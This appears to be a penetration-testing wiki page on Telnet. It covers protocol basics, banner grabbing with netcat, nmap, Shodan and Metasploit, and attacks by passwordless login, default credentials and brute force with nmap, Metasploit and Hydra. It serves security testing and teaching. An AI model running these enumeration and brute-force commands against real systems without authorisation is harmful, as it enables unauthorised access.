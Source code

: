 ```yaml
---
authors: ShutdownRepo, Tednoob17
category: infra
---
```


# 🛠️ Telnet

## Theory
Telnet (teletype network) is a  network protocol used to gain access to a  virtual terminal in local or in remote systems . It provides  bidirectional text-based communication .

----
### Common telnet commands

| Command   | Description                                                    |
| --------- | -------------------------------------------------------------- |
| `open`    | Connects to a specified local/remote host                      |
| `close`   | Closes the current connection                                  |
| `quit`    | Exits telnet                                                   |
| `status`  | Shows the current status of the telnet client                  |
| `z`       | Suspends telnet (on Unix/Linux systems)                        |
| `set`     | Sets Telnet options (like terminal type)                       |
| `unset`   | Unsets Telnet options                                          |
| `display` | Displays current settings of Telnet options                    |
| `send`    | Sends special characters or sequences (like break)             |
| `mode`    | Sets the mode of operation (e.g., line by line or character)   |
| `logout`  | Logs out from the remote system (not available on all systems) |


## Practice
### Enumeration
#### Banner grabbing
To initiate a connection with telnet server and get any information about the target .

> [!TIP]
> The `$TARGET_PORT` is optional, but the default port is 23



::: tabs

=== Unix-like

The Telnet banner of a target can be captured using multiple tools on UNIX-like systems.

```bash
#Using Netcat
nc -nv $TARGET_IP $TARGET_PORT

#Using Telnet
telnet $TARGET_IP $TARGET_PORT

#Using Shodan-cli
shodan stream --ports 23,1023,2323 --datadir telnet-data/ --limit 10000

#Using nmap
nmap -p  $TARGET_PORT -sVC  --script "*telnet* and safe" $TARGET_IP
```
The Metasploit framework can also be used to make this work.

```
msf > use auxiliary/scanner/telnet/telnet_version
msf > set rhosts $TARGET_IP
msf > set rport $TARGET_PORT
msf > set threads 5
msf > exploit
```

=== Windows

On Windows systems, multiple tools can be used to capture the Telnet banner of a target.

```powershell
nc.exe -nv $TARGET_IP $TARGET_PORT

telnet $TARGET_IP $TARGET_PORT

nmap.exe -p  $TARGET_PORT   --script telnet-ntlm-info.nse $TARGET_IP
```
:::




### Attacks

#### Passwordless authentication

Telnet can be configured to allow users to connect to a server without needing a specific identity by utilizing a passwordless login feature. This method is commonly employed for accessing or downloading public files.

To connect without a password, one would use the following command:

```bash
telnet $TARGET_IP

# provide username, without password
```

#### Common credentials

If anonymous login is disabled on the Telnet server, trying common usernames and passwords like admin, administrator, root, user, or test can be a good initial step. This approach is less aggressive than attempting to guess passwords through brute force and is recommended to try first when accessing a server.

```bash
telnet $TARGET_IP

# provide a common username with a common password
```


#### Brute Force

::: tabs

=== Nmap

```bash
nmap -p 23 --script telnet-brute $TARGET_IP
```

=== Metasploit framework


```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set rhosts  $TARGET_IP
msf auxiliary(telnet_login) > set user_file /path/to/user.txt
msf auxiliary(telnet_login) > set pass_file /path/to/pass.txt
msf auxiliary(telnet_login) > set stop_on_success true
msf auxiliary(telnet_login) > exploit
```

=== Hydra

```bash
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S $TARGET_PORT] telnet://$TARGET_IP

hydra -l root -P $PATH_TO/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt $TARGET_IP telnet
```

:::


## Resources
[pentesting-telnet](https://book.hacktricks.xyz/network-services-pentesting/pentesting-telnet)  
[telnet-pentesting-best-practices](https://secybr.com/posts/telnet-pentesting-best-practices)  
[Offensive-Pentesting-Host](https://github.com/InfoSecWarrior/Offensive-Pentesting-Host/blob/main/Telnet/README.md)  
[Telnet](https://techyrick.com/pentesting-telnet)  

